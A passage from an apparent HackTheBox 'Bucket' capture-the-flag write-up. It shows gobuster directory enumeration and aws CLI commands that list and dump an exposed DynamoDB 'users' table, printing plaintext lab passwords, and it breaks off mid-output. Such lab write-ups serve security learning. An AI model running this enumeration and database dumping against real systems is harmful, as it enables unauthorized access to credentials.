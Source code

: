 Add the address to your /etc/hosts and let's to a little bit of enumeration now

## Enumeration

Enumeration on the new link:

```
gobuster dir -u http://s3.bucket.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3.bucket.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/30 19:12:08 Starting gobuster
===============================================================
/health (Status: 200)
/shell (Status: 200)
```

Let's check the shell part of the website.

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_175414.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_175414.png)

Gives us access to a JS shell for dynamodb. Tried using it but gave up and in the end used the aws CLI. First let's get a list of all the tables of the DB:

```
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb
{
    "TableNames": [
        "users"
    ]
}
```

Now let's see what is inside of that table

```
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
```
